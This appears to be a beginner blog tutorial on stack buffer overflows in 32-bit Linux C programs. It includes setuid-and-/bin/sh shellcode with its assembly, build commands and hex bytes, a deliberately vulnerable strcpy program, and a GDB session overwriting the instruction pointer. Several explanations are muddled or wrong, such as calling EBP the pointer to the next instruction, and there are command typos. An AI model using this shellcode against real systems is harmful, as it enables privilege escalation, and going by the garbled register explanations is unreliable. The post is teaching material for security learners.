










## Introduction: Buffer Overflow Attack Basics

Buffer overflow is one of the most well-known and impactful vulnerabilities in the world of cybersecurity. It occurs when a program writes more data to a fixed-length block of memory, or buffer, than it can handle. This overflow can overwrite adjacent memory, potentially leading to unpredictable behavior, crashes, or even full system compromise.

What makes buffer overflow especially dangerous—and fascinating—is its ability to let attackers manipulate the flow of execution at a low level. Unlike many application-level attacks, buffer overflows target the underlying memory and processor operations, making them a powerful weapon in the hands of skilled hackers or penetration testers.

This kind of vulnerability is commonly found in software written in low-level languages like C and C++, where manual memory management is required. When exploited correctly, buffer overflow can lead to remote code execution, privilege escalation, and even the complete takeover of a system.

In this post, we’ll break down the basics of how buffer overflows work, why they happen, and how they're commonly exploited. Whether you're a budding penetration tester or just diving into exploit development, understanding buffer overflows is a foundational skill for anyone in offensive security or malware analysis.

Let's track it done, this post agenda are:
- [Understand the theoretical](#understand-the-theoretical)
- [Debugging tools and how to use them](#debugging-tools-and-how-to-use-them)
- [Performing the attack](#performing-the-attack)

## Understand the theoretical

Buffer overflow is much like other app attack, like, we enumerate the app and search for break point which can be use later to bring some reverse shell or do other thing to gain sort of access to the server side if you will. In buffer overflow is much the same, we enumerate the program in low memory and search for injection point. This is more complicated then just find the point and inject the code, but the way to find it include the two steps as in the application injection point:

1. Full Enumeration.
2. Pre-Exploit Injection.
3. Exploitation.

First let's understand in the eazy way how it work, it much like a bucket, if you have a bucket you surely know how much water you can insert to it, if you insert more than the bucket can contains, the water will flow out the bucket, and that what happens on buffer overflow. We have a memory space that contain data, and we insert more data than the **memory segment** can contain.

  
**Figure 1** Flow the bucket.

The problem that the buffer overflow made is not just flow out the memory segment, it flow out with new instruction which in some way make the program to execute the new instruction like they are part of the program it self, you can think of it like someone give some laboratory guide instruction to do X and Y and Z, and he does, but in some point the instruction was change by another person without the laboratory guy notice and after he have ran them he gets other reactions that he expected to see.

  
**Figure 2** laboratory explosion.

So, to understand it deeply, on the computer we have what called RAM (Random Access Memory), that RAM hold a portion of virtual memory (the complete **virtual memory space** includes both RAM and potentially disk space), and when some code are executable the initial data of the program are loaded into the virtual memory space, this often includes instructions, libraries, and static data.

Then the operating system maps virtual addresses used by the program to physical addresses in RAM. This mapping allows the program to interact with memory using virtual addresses, while the operating system manages the actual locations in physical memory.

The **memory segments**, are defined within the **virtual address space** of a program. Each segment is associated with a range of **virtual addresses** that the program uses to access and manage different types of data and instructions.

There is several memory segments, heap, stack, data, text and more. on our case we're going to be looking primarily at the stack segment which we going to abuse on the examples over that post.

In the case of the stack, it contains virtual addresses that represent the memory locations for function calls, local variables, and the return addresses for the program's execution flow. These virtual addresses are used by the program, and the operating system manages the mapping of these virtual addresses to actual physical addresses in RAM or on disk.

So, when a program runs, it works with virtual addresses within its various memory segments, and the operating system takes care of translating these virtual addresses to the appropriate physical addresses in the underlying hardware. This abstraction helps in efficient memory management and allows for flexibility in handling memory resources.

A virtual address is typically represented as a numerical value that serves as an identifier for a location within a program's virtual address space. The format and length of virtual addresses depend on the architecture and operating system in use. The size of a virtual address is determined by the architecture. Common sizes include 32-bit and 64-bit virtual addresses. Virtual addresses are often represented in hexadecimal for readability. For example:
- In a 32-bit system: 0x00000000 to 0xFFFFFFFF
- In a 64-bit system: 0x0000000000000000 to 0xFFFFFFFFFFFFFFFF

Just remember that each virtual addresses are used as references to locations in the program's memory, including code, data, and other segments. The stack segment in a program's virtual address space does, in a sense, point directly to the addresses that are involved in the program's execution flow. The stack is a Last In - First Out (LIFO) data structure that is used for managing function calls, local variables, and the program's execution flow.

And this is the point on our case that we must to understand, since we aim to overflow the memory, overwriting the stack and gaining control, we can manipulate it by overwriting it with a virtual address pointing to our malicious code, allowing us to execute it.

Note that the small pieces of data found in each memory segment are utilized by the CPU. These data, commonly referred to as **registers** such as EAX and EBX, serve as temporary **storage for calculations**. The CPU processes instructions from the memory segment, determining how to manipulate and operate on the stored data.

Let's break down the process of executing code step by step, simplifying the explanation.

**Loading Code:** When you run a program, the operating system loads the executable code from the disk into the computer's memory.

**Memory Segments:** The memory is divided into segments like the code segment (for executable instructions), data segment (for global variables), heap (for dynamic memory), and stack (for managing function calls and local variables).

**CPU Registers:** The CPU, the brain of the computer, has special storage locations called registers. General-purpose registers like EAX, EBX are used for quick data storage and manipulation.

**Instruction Fetch:** The CPU fetches instructions from the code segment in memory, and the program counter (a special register, the **IP** - *Instruction Pointer*) keeps track of the next instruction to be executed.

**Instruction Decode and Execute:** The CPU decodes the fetched instruction and performs the corresponding operation. This could be arithmetic, logic, or control-flow operations.

**Memory Access:** Data may be read from or written to memory during instruction execution. This involves using memory addresses.

**Registers in Action:** General-purpose registers (like EAX) store temporary data during calculations.

**Function Calls:** When a function is called, the stack is used to manage information like return addresses, local variables, and parameters.

**Return from Functions:** When a function returns, the stack is used to retrieve the return address and resume execution from that point.

**CPU Control Flow:** The CPU's control unit manages the flow of instructions, ensuring they are executed in the correct order.

**Exception Handling:** If an error occurs or a special condition arises, the CPU may trigger an exception, leading to specific actions or interrupting the normal flow.

In summary, when you run code, the CPU fetches and executes instructions stored in memory. Registers help with quick data storage, and different memory segments organize data and code. The stack is crucial for managing function calls, while the CPU's control unit oversees the flow of instructions. It's a complex dance orchestrated by the CPU to make your program run.

  
**Figure 3** The operation when code are executed.

## Debugging tools and how to use them.

If we have some program and we want to make research to analysis if we can perform buffer overflow on it, we must run some debugging tool that help us for understand how the program work and identified if we can overflow it, also after we have found that program is vulnerable, the full operation to make code the abuse the program for buffer overflow are done side by side with that debugging tool.

We can find several debugging tool, since we talk about linux, we going to check the debugging tool that fit for linux. In our case we going to use GDB (GNU Debugger), but also you can use another tools, for example, Valgrind, strace, ltrace, gdbserver, perf, rr (Mozilla's Record and Replay), Various strace and ltrace GUIs (Graphical User Interfaces).

Also, you can find **Ghidra** which can help a lot on reverse some binary and understand the code, but we will talk about it on another post.

Before we going to dive into the first code, on the follows examples we going to use some shellcode, so we will create buffer overflow and run our malicious code so we should get back new shell from our execution.

The following shell code I found over exploit db, which is 13333.txt:
```
https://github.com/blackorbird/exploit-database/blob/master/shellcodes/lin_x86/13333.txt
```

First we going to compile that code and make some binary files of it, after that we will create hex values so we can use it as the malicious part on our buffer overflow.

The original code look like the following:
```
;shellcode.asm
global _start
section .text
_start:
  ;setuid(0)
  xor ebx,ebx
  lea eax,[ebx+17h]
  cdq
  int 80h
  ;execve("/bin/sh",0,0)
  xor ecx,ecx
  push ecx
  push 0x68732f6e
  push 0x69622f2f
  lea eax,[ecx+0Bh]
  mov ebx,esp
  int 80h
```

That code should be save as shellcode.asm, then we use the following code for change it's format to elf file so we can make it as binary file:
```
nasm -f elf32 -o shellcode.o shellcode.asm
```

Now, we going to links the object file "shellcode.o" into an executable binary named "shellcode" using the GNU Linker. The resulting binary is a 32-bit ELF executable that can be executed on a compatible system.
```
ld -m elf_i386 -o shellcode shellcode.o
```

We can check now it if work and give us new shell on our terminal:  
  
**Figure 4** New shell on our terminal.

Now, we want to convert that binary to hex value so we can use it on   the buffer overflow example here. We going to use the command objcopy to extract the binary content of the *.text* section from the input file "shellcode" and saves it into a new file named "shellcode.bin". This is often done to extract the raw machine code (binary) from an executable or object file, which can be useful for various purposes such as embedding in other programs or systems.
```
bjcopy -O binary -j .text shellcode shellcode.bin
```

Now with the next command we going to convert the binary content of "shellcode.bin" into a format commonly used in shellcode or other contexts where raw hexadecimal representation is needed. The output will be a series of `\x` prefixed hexadecimal values representing each byte in the binary file.
```
xxd -p -c 1 shellcode.bin | awk '{printf("\\x%s", $1)}'\n
```

the output of that should be our hex shell code values that we need to our buffer overflow example:
```
\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80
```

Also we need to know the length of our shellcode so we can use it for our calculation:


#!/bin/bash

shellcode="\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"

# Remove the escape characters and calculate the length
length=$(echo -n -e $shellcode | wc -c)

echo "Length of shellcode: $length bytes"


The output for that one is:`Length of shellcode: 28 bytes`.

So now we can start on our first example, let's look on our first code, the following code is the vulnerable for buffer overflow since the buffer size have no boundaries.


#include <stdio.h>
#include <string.h>

int main(int argc, char** argv) {
    // Declare a character array 'buffer' with a size of 500 bytes
    char buffer[500];

    // Copy the string from the command line argument argv[1] into the 'buffer'
    strcpy(buffer, argv[1]);

    // Return 0, indicating successful execution
    return 0;
}


Let's break it down, the line `int main(int argc, char** argv)` is the declaration of the main function in a C program.

`int` this specifies that the return type of the main function is an integer. The main function typically returns an integer value to the operating system, indicating the exit status of the program. A return value of 0 usually indicates successful execution, while a non-zero value often indicates an error or abnormal termination.

`main` this is the name of the function. In C, every program must have a main function, and execution of the program starts from the main function.

`(int argc, char** argv)` these are the parameters of the main function:

`int argc` stands for "argument count" and represents the number of command-line arguments passed to the program. It includes the name of the program itself as the first argument.

`char** argv` stands for "argument vector" and is an array of strings representing the command-line arguments. Each element (argv[i]) is a string (character array) containing one of the arguments. The first argument (argv[0]) is the name of the program. Also please note that on that case we can insert even more then four arguments.

The line `char buffer[500];` declares a character array named buffer with a size of 500 bytes. The line `strcpy(buffer, argv[1]);` are used to take the user input on argv[1] and store it on the buffer that was create earlier . In the  end of the code  it return 0, which mean no output should appear on the screen.

This code are vulnerable for buffer overflow because, although there is size for the buffer, there is no checking how much data was insert on argv[1], so, if there is more then 500 characters on argv[1] it insert it to buffer which should contain only 500, which mean the pieces of data that was inserted are overwrite other field which can overwrite the instructions and take down the program or the binary file on our case.

so now, let's look on that closely, we run gdb for debug that code using:
```
>gdb ./vuln1
```
After run that code we can run `list` command for see the lines of code, please note, if the code was compile without debugging flag, we aren't be able to see the full lines  of code, to run flag for debugging in `gcc` we can use `-g` on the compile process.

  
**Figure 4** List command on gdb.

If we run `disassemble main` we will be able to see the assembly version of our code, these list may seen odd to a new student on that reverse engineer field, but it not so difficult to understand, so let's break it down column after column.

  
**Figure 5** disassemble main.

On the first column we can see the odd number, `0x00001139`, this number represent the address location for the following line of code, next to it we can see `<+0>` which is indicates that the assembly instruction locate on 0 byte which mean that this is the start location of the code, you can see that this number goes up, on the third  line we can see 4, which represent that the assembly instruction is 4 bytes away from the previous instruction.

`push %ebp` is instructing the processor to push the value currently stored in the %ebp register onto the stack. The base pointer register is commonly used to point to the base of the current stack frame in function calls.

Now, let's break down the assembly code line by line for getting good understanding how it work and what the CPU have done on each.

`push %ebp`: the %ebp is register that operate by the CPU, the operator on that case is push which push %ebp to the stack, since the %ebp is the base pointer register, by doing that operation the stack shpuld contain the RBP value.

`mov %esp, %ebp`: in that case the operator is mov, which use to move data from one location to another, the source register in our case is RSP which is the stack pointer, and the operation is moving the value on that RSP to the RBP which is the base pointer for the stack frame.

`sub $0x210, %esp`: on that case the operator are subtracts one value from another. so the value $0x210 are subtracted from %esp, which mean the stack pointer is adjusted by subtracting 528 bytes (0x210 in hexadecimal).

`mov %edi, -0x204(%ebp)`: on that case the operation is move again, so %edi, which holds the first function argument, are stored at an offset from the base pointer (0x204 are represent 516 bytes).

`mov %esi, -0x210(%ebp)`: move the %esi value to the %ebp, this is the second function argument is stored at an offset from the base pointer.

`mov -0x210(%ebp), %eax`: again, move the %ebp value to the register RAX. Which mean the second function argument is loaded into %eax.

`add $0x8, %eax`: on that line, the operation is to add one value to another, so the value $0x8 are added to RAX, which mean the value in %eax is incremented by 8.

`mov (%eax), %edx`: again, moe operator, the value pointed to by %eax is loaded into %edx.

`lea -0x200(%ebp), %eax`: The lea are stand for Load Effective Address which computes the address and loads it into a register, so the effective address is calculated and loaded into %eax.

`mov %edx, %esi`: move the value from RDX register to RSI which is used as an argument for the strcpy function.

`mov %eax, %edi`: move the holds the calculated address on RAX register to RDI which is used as an argument for the strcpy function.

`call 0x1030 <strcpy@plt>`: the operator here are performs a function call, you can see immediate value. It's the address of the strcpy function in the procedure linkage table (PLT).

`mov $0x0, %eax`: which in that case make EAX register with value of 0, meaning it reset that register.

`leave`: operator that is often used in function epilogue to restore the stack frame.

`ret`: this operator performs a function return, which mean on our case return value to the teminal, since it have no value to return (so design on the code), this operator return nothing.

## Performing the attack.

So now let's perform the attack, first we going the execute the code, we will see that it get some error.

  
**Figure 6** Segmentation fault.

We getting this error, because the function should get at least one argument, so we must insert one argument, by doing so we can see that nothing goes back, we have no output as it should be.


**Figure 7** Nothing back.

So now, back again to gdb, we will run command inside of that to execute the code with one argument that are far more longer then 500 characters, just remember, the code design in such way that the buffer can only contain 500 characters but there is no function ot operator that boundaries the argument1 value and there is no check what is the length of that value, and this is the case of making buffer overflow, so we going to use the command `run` with line of python code to make the argument 1 as input to that small program, we insert A char which is `\x41` on hexadecimal.

Please note,on this post I display compiled code with base 32, if you want to follow my instruction you can do the same and compile the original code with the following command: `gcc -g -m32 -o ./output_code ./input_code.c`.

The python code I used (which is python2 in my case) make 500 of A's and insert it as an argument into the running program which is our vuln1. then after running it we should get segmentation fault.

```
└─$ gdb ./vuln1
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln1...
(gdb) run $(python2 -c 'print "\x41" * 500')
Starting program: /home/kali/Desktop/BO/binaries/vuln1 $(python2 -c 'print "\x41" * 500')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb)
```

  
**Figure 8** Segmentation fault after insert 500 of  A's.

If we check the registers we will see that the eip register was fill up with `\x41`, so the system doesn't know how to operate with that value, so this is why we get that error, in fact on this case we overwrite the eip. we also can check the memory address to see the full vules that got in the stuck, the register esp is setup on the start of the stuck, so we can floow it and see all the characters we insert to the buffer. On our case ESP is point to the address `0xffffcd00`, so this is the start point we what to display the memory address table from the buffer.

`x/500 0xffffcd00`

Then if we scroll down, we will able to see the values of `\x41` we insert which cause the segmentation fault. On assembly the EBP (base pointer) are used to point to the next line of code that should be executed, every step that ebp value are change and the CPU execute each line base on the address location that are specified on that EBP.

  
**Figure 9** Addresses table.

That is mean we want to overwrite that EBP so we have control on the base pointer to point back to our code, also called return address, if we have the return address that is the location of our code, this is the address we should insert to EBP.

So let's fill that code again with 508 characters of A's and check if that overwrite the EBP.

  
**Figure 10** Registers overwriting.

We can see that now the ESP is overwritten, so let's try to make that input bigger.

  
**Figure 11** EBP is partly overwritten.

Now we can see that EBP is only partly overwrite with our `\x41`, which mean for fill it up we need to use 512 characters on our input and that's it, we can control the EBP now.


**Figure 12** Control the EBP.

```c
#include <stdio.h>
#include <string.h>
void secret(){
  printf("You have accessed the secret function!!\n");
}
int main(int argc, char *argv[])
{
  char buf[512];
  strcpy(buf, argv[1]);
  printf("%s",buf);
  return(0);
}
```